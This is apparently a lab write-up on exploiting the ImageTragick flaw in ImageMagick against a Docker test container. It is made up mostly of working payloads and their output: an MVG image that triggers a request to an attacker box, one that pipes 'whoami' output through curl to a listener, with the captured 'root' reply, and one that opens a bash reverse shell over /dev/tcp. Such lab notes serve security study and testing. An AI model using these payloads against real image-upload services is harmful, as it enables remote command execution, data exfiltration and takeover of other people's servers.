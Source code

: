 #### 3.1. About

Repo: `https://github.com/ImageTragick/PoCs`

Setup:
```
# docker pull craighurley/docker-imagetragick
# docker run -d --name imagetragick -p 8080:8080 craighurley/docker-imagetragick
```


#### 3.2. Testing for vulnerability

Test file - original:
```
# md5 111.jpg
MD5 (111.jpg) = 3e5eb1ca377db6054cf921e322e0468e
# http -f POST http://172.16.201.160:8080/ file@/tmp/111.jpg
```

Test file - uploaded:
```
[root@161c0e047c5f app]# md5sum */*
b8f66b55f5b4abdb89019e60ab26bd49  converted/111.jpg.jpg
3e5eb1ca377db6054cf921e322e0468e  uploads/111.jpg
```
Note: uploaded image will be converted to JPG file


Test vulnerability with HTTP request to attacker's box:
```
# cat > payload.jpg << EOF
push graphic-context
viewbox 0 0 640 480
fill 'url(http://172.16.201.160:9999)'
pop graphic-context
EOF
# http -f POST http://172.16.201.160:8080/ file@/tmp/payload.jpg >/dev/null
```

Listener:
```
# python -m SimpleHTTPServer 9999
172.17.0.3 - - [12/Nov/2018 10:36:52] "GET / HTTP/1.0" 200 -
```


#### 3.3. Exploitation

Payload:
```
# cat > payload.jpg << EOF
push graphic-context
viewbox 0 0 640 480
fill 'url(https://"|whoami|curl -F :data=@- http://172.16.201.160:9999")'
pop graphic-context
EOF
# http -f POST http://172.16.201.160:8080/ file@/tmp/payload.jpg >/dev/null
```

Listener:
```
# ncat -nlvp 9999
Ncat: Version 7.70SVN ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 172.17.0.3.
Ncat: Connection from 172.17.0.3:44320.
POST / HTTP/1.1
User-Agent: curl/7.29.0
Host: 172.16.201.160:9999
Accept: */*
Content-Length: 199
Expect: 100-continue
Content-Type: multipart/form-data; boundary=----------------------------0cea23a18a03

------------------------------0cea23a18a03
Content-Disposition: form-data; name=":data"; filename="-"
Content-Type: application/octet-stream

root

------------------------------0cea23a18a03--
```

#### 3.3. Reverse shell

Payload:
```
# cat > payload.jpg << EOF
push graphic-context
viewbox 0 0 640 480
fill 'url(https://"|bash -i >& /dev/tcp/192.168.209.146/9999 0>&1")'
pop graphic-context
EOF
```
Procs on the box:
```
root        62  0.0  0.1  11640  2568 pts/0    S    15:45   0:00 sh -c "curl" -s -k -o "/tmp/magick-jYIZ13p9" "https://"|bash -i >& /dev/tcp/192.168.209.146/9999 0>&1""
```
